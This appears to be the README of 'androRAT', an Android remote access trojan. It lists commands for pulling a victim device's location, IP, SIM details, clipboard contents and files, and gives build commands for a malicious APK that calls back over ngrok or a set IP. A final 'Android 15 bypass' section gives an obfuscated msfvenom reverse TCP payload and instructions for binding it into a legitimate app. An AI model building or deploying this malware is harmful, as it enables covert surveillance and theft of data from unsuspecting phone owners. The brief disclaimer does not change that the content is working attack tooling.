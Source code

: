 ```
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python3 androRAT.py --build --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python3 androRAT.py --shell -i 0.0.0.0 -p 8000```

## Interpreter Examples
* Generating APK
<p align="center">
  <img src="Screenshots/6.JPG" width="800"/>
</p>
------------------------------------------------------------------------------------------------------------------------------  

* Some interpreter Commands 
<p align="center">
  <img src="Screenshots/1.JPG" width="800"/>
</p>
------------------------------------------------------------------------------------------------------------------------------

# 🔥 Android 15 Bypass for Reverse TCP Payload 🔥

**Disclaimer:** This information is for authorized penetration testing and security research only. Unauthorized access to devices is illegal and unethical.

To create an Android 15-compatible reverse TCP payload that bypasses security measures, you'll need advanced techniques:

```bash
# Generate obfuscated payload with anti-emulation features
msfvenom -p android/meterpreter/reverse_tcp \
LHOST=YOUR_IP \
LPORT=YOUR_PORT \
-a dalvik --platform android \
--arch dalvik -f raw \
-b '\x00\xff' -e cmd/powershell_base64 \
-i 15 | \
openssl enc -aes-256-cbc -salt -pass pass:RandomSeed -out payload.bin

# Embed in legitimate APK template
git clone https://github.com/AndroidTamer/apk-binder
cd apk-binder

# Use a legitimate open-source app as template
```